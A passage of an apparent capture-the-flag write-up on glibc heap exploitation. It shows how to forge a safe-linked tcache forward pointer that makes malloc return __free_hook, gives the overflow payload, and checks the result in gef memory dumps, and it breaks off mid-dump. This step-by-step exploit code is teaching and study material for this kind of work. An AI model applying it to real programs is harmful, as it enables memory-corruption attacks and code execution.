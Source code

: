 So we know the offset. Remember the new mechanism for the forward pointer and we can fake the forward pointer to malloc `__free_hook` with the payload below:

```
# The chunk we overwrite forward pointer has address at "heap + 0xb40"
fake_fw_pointer = ((heap + 0xb40) >> 12) ^ (libc.sym['__free_hook'])
```

So that we fake the previous chunk into `__free_hook` and write it with the chunk from unsorted bin. We will malloc a chunk with size of 0x130 for overwriting:

```
payload = b'\x00'*0x100                 # Padding to tcache
payload += flat(0, 0x111)               # Prev_size and size of tcache
payload += flat(fake_fw_pointer)        # Overwrite forward pointer
add(10, 0x130, payload)
```

And let's check if our forward pointer is correct or not (Address changed):

```
gef➤  x/50xg 0x0000000000caca20
0xcaca20:   0x0000000000000000  0x0000000000000141
0xcaca30:   0x00007f43934d0e10  0x00007f43934d0e10    <-- New chunk from unsorted bin
0xcaca40:   0x0000000000000000  0x0000000000000000
0xcaca50:   0x0000000000000000  0x0000000000000000
0xcaca60:   0x0000000000000000  0x0000000000000000
0xcaca70:   0x0000000000000000  0x0000000000000000
0xcaca80:   0x0000000000000000  0x0000000000000000
0xcaca90:   0x0000000000000000  0x0000000000000000
0xcacaa0:   0x0000000000000000  0x0000000000000000
0xcacab0:   0x0000000000000000  0x0000000000000000
0xcacac0:   0x0000000000000000  0x0000000000000000
0xcacad0:   0x0000000000000000  0x0000000000000000
0xcacae0:   0x0000000000000000  0x0000000000000000
0xcacaf0:   0x0000000000000000  0x0000000000000000
0xcacb00:   0x0000000000000000  0x0000000000000000
0xcacb10:   0x0000000000000000  0x0000000000000000
0xcacb20:   0x0000000000000000  0x0000000000000000
0xcacb30:   0x0000000000000000  0x0000000000000111
0xcacb40:   0x0000000000cac4bc  0x0000000000cac010    <-- Tcache
0xcacb50:   0x0000000000000000  0x0000000000000000
0xcacb60:   0x0000000000000000  0x00000000000000e1
0xcacb70:   0x00007f43934d0c00  0x00007f43934d0c00    <-- Unsorted bin
0xcacb80:   0x0000000000000000  0x0000000000000000
0xcacb90:   0x0000000000000000  0x0000000000000000
0xcacba0:   0x0000000000000000  0x0000000000000000
```

It malloc successfully, let's check if everything is on the right path or not:

```
gef➤  x/50xg 0x0000000000caca20
0xcaca20:   0x0000000000000000  0x0000000000000141
0xcaca30:   0x0000000000000000  0x0000000000000000    <-- New chunk from unsorted bin
0xcaca40:   0x0000000000000000  0x0000000000000000
0xcaca50:   0x0000000000000000  0x0000000000000000
0xcaca60:   0x0000000000000000  0x0000000000000000
0xcaca70:   0x0000000000000000  0x0000000000000000
0xcaca80:   0x0000000000000000  0x0000000000000000
0xcaca90:   0x0000000000000000  0x0000000000000000
0xcacaa0:   0x0000000000000000  0x0000000000000000
0xcacab0:   0x0000000000000000  0x0000000000000000
0xcacac0:   0x0000000000000000  0x0000000000000000
0xcacad0:   0x0000000000000000  0x0000000000000000
0xcacae0:   0x0000000000000000  0x0000000000000000
0xcacaf0:   0x0000000000000000  0x0000000000000000
0xcacb00:   0x0000000000000000  0x0000000000000000
```